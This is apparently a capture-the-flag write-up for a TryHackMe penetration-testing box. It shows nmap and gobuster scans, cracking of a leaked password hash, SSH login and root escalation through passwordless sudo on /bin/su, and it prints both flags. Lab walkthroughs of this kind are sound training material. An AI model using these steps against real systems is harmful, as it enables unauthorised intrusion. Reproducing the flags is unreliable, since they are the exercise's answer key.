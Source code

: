 # CC:Pen-Testing
Solve the final exam of the CC:Pen-Testing box in TryHackMe.  
The goal is to exploit the target machine and get the content of user.txt and root.txt.

## Solution
ip of the target host: 10.10.193.79

Reconnaissance: scan the target machine to enumerate ports and services.
```shell
nmap -sV 10.10.193.79
```
It gives:
```shell
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Meanwhile run gobuster to find hidden directories.
```shell
gobuster dir -u http://10.10.193.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 64
```
We found the hidden diretory /secret. The url http://10.10.193.79/secret/ yield a blank page.  
We can bruteforce the directory /secret to find hidden files:
```shell
gobuster dir -u http://10.10.193.79/secret/ -w /usr/share/dirbus ter/wordlists/directory-list-2.3-medium.txt -t 64 -x txt,php,html,css,js
```
We managed to find the file secret.txt, containing a username and a hash:  
nyan:046385855FC9580393853D8E81F240B66FE9A7B8

Now we can try to break the hash to find the password of nyan. Hopefully is the same password used to login through ssh.  
In order to break the hash we can use the CrackStation (https://crackstation.net/).  
Decrypting the hash we get nyan.

We can now use the retrieved credentials to try to get access to the machine using ssh:
```shell
ssh nyan@10.10.193.79
```
It worked !

```shell
nyan@ubuntu:~$ ls
user.txt
nyan@ubuntu:~$ cat user.txt 
supernootnoot
```
The content of user.txt is supernootnoot.

Final step is to find the file root.txt. The name of the file suggests that the flag is only available under root.  
We download LinEnum, useful tool which scans the system to find ways to escalate the privileges. In the scan report, we see the following:
```shell
[+] We can sudo without supplying a password!                                                                     
Matching Defaults entries for nyan on ubuntu:                                                                     
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/
bin                                                                                                               
                                                                                                                  
User nyan may run the following commands on ubuntu:                                                               
    (root) NOPASSWD: /bin/su
```

Therefore we can become root using: 
```shell
sudo /bin/su
``` 

In the home directory of root we can find the root.txt file.
```shell
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
congratulations!!!!
```

The content of root.txt is congratulations!!!



